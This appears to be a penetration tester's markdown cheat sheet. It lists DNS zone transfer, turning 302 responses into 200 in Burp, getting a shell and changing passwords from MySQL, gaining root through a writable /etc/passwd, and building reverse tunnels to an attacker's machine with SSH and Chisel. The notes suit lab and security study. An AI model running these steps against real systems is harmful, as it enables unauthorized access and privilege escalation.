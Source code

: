 ### Notes to look after:
- [DNS Stuffs](#dns)
- [302 Stuffs](#302)
- [Burp Stuffs](#burp)
- [Mysql Stuffs](#mysql)
- [Passwd Stuffs](#passwd)
- [Port Forwarding](#pd)
- [Linux Update/Upgrade Error](#error)


#### DNS Things:<a name='dns'></a>
- When DNS port is open on TCP, high chances of `zone transfer`<br />
`dig axfr domain.com @domain.com`


#### 302 Things:<a name='302'></a>
- When the status code is `302` which is redirect and has a size more than `1kb` then its fishy
- When `302` is found in the response heade, browser looks for the `location` header in the response and redirects there
- When the response form the server is intercepted and 302 is changed to `200 OK`
- The altered response processes and shows a new result than before


#### Burp Things:<a name='burp'></a>
- Automatically find and replace the response code with burp:
   - options -> Match and Replace -> Response Header -> Match: 30[12] FOUND; Replace: 200 OK -> â˜‘ï¸ Regex match -> ok 
   - This replaces 301 FOUND / 302 FOUND with 200 OK in the response header


#### MySQL Things:<a name='mysql'></a>
- When the creds for mysql is obtained, try to login 
  - `mysql -u <user> -p`
- After logging into mysql `\! /bin/sh` pops a shell (nice to give it a try)
- Enumerate the available tables: 
`select * from tables;`
- Enumerate values from  the table: 
`select * from tableName`
- Alter users password: 
 `update users set password = 'MySql_hash' where name='userName';`
 

#### Passwd Things:<a name='passwd'></a>
- When `write` permission for the passwd file is found
- Genereate a `crypt` passwd, which is standard unix algorithm
- In the passwd file, `root:x:0:0:root:/root:/bin/bash` replace the `x` with the openssl generated hash
- And su as root

#### Port Forwarding:<a name="pf"></a>
- Transferring a service running on a specific port on the compromized machine to attacker's machine
- Via SSH
```bash
# syntax: ssh -R remote_port:localhost:local_port ssh_server_hostname
ssh -R 80:localhost:8888 10.10.10.10

# syntax: ssh -N LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
# open a port on the atatckers machine
# to enter the ssh mode use "~C"
# ssh> -L {attackerMachinePort}:{victimMachine}:{victimPort} //victim machine mat be, 127.0.0.1 or an IP address that the compromized machine have access to
ssh -NL 8080:127.0.0.1:8080 10.10.10.10

```
- Via Chisel
```bash
# on the attacker machine
chisel server -p 9999 --reverse

# on the victim machine
chisel client 10.10.10.10:9999 R:443:127.0.0.1:443
```

#### Linux Update/Upgrade Error:<a name='error'></a>
```bash
sudo rm -rf /var/lib/apt/lists/*
sudo apt-get clean
sudo apt-get update
sudo apt-get upgrade
```

